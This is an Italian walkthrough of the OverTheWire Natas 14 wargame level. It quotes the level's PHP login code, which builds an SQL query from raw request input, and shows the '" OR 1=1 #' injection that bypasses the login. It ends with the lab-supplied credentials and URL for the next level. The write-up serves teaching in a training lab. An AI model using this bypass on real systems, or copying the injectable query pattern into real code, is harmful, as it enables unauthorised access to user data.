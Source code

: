 Con questo esercizio si intruce la tecninca del [_SQL Injection_](https://en.wikipedia.org/wiki/SQL_injection).
Il codice:

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
    *stampa il form*
}
?> 
``` 

Come vediamo lo script esegue la query SQL:

```php 
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"$_REQUEST["password"]\"";
```

Dove `$_REQUEST['username']` e `$_REQUEST['password']` sono i valori immessi da noi nel form.
Possiamo quindi manipolare la query impostando username a `"ciao"` e password a `" OR 1=1 #`.
In questo la query diventerebbe:

```sql
SELECT * from users where username="ciao" and password="" OR 1=1# 
```

Ovvero: Seleziona Tutto dalla Tabella users Dove `username` è uguale a `ciao` e `password` è uguale a `null` oppure dove `1=1` (sempre vero). In parole pavore è: `Seleziona tutto`.

![](https://i.postimg.cc/MptLNxs5/natas14-2.png)

## Natas 15 :: 16
> _User:_ natas15

> _Pass:_ AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

> _URL:_ http://natas15.natas.labs.overthewire.org

![](https://i.postimg.cc/QdN4pwXT/natas15-1.png)
